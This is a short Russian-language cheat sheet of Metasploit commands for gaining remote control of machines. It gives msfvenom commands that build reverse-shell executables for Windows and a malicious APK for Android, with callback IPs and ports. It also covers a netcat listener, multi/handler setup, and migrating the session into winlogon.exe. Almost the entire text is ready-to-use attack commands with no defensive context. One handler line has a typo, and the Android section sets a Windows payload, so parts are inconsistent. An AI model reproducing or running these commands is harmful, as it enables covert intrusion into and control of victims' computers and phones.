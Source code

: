 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run



Для АНДРОИД
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

use exploit/mulit/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.0.9

set lport 4444

exploit
